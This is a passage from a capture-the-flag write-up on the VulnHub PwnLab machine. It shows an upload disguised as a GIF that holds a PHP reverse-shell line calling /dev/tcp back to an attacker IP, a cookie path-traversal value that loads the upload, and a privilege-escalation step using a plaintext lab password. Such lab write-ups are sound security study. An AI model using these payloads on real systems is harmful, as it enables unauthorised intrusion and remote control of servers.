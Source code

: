 ```bash
$ tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:38:56.995815 IP pwnlab > kali: ICMP echo request, id 1222, seq 1, length 64
12:38:56.995833 IP kali > pwnlab: ICMP echo reply, id 1222, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

### Final payload

Our final file:

```
GIF89;  
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'"); ?>
```

**lang** cookie is now equal to:

`../upload/dfbb431572245b404f7db316d70bfc70.gif`

First I thought it didn't worked, but after pressing _"Go back one page"_, I got a shell:

![reverse shell](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/reverse-shell.png)

![nc](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/nc.png)


## Privesc (`kane` to `mike`)

By using [MySQL credentials](#mysql-port-3306), I was able to log in as `kent` and `kane` but not as `mike`.

- **kent**:

```bash
www-data@pwnlab:/home$ su kent
su kent
Password: JWzXuBJJNy

kent@pwnlab:/home$
kent@pwnlab:/home$ cd kent
kent@pwnlab:~$ ls -la
total 20
drwxr-x--- 2 kent kent 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
```

There is nothing interesting in kent's folder. Let's try to log in as mike:

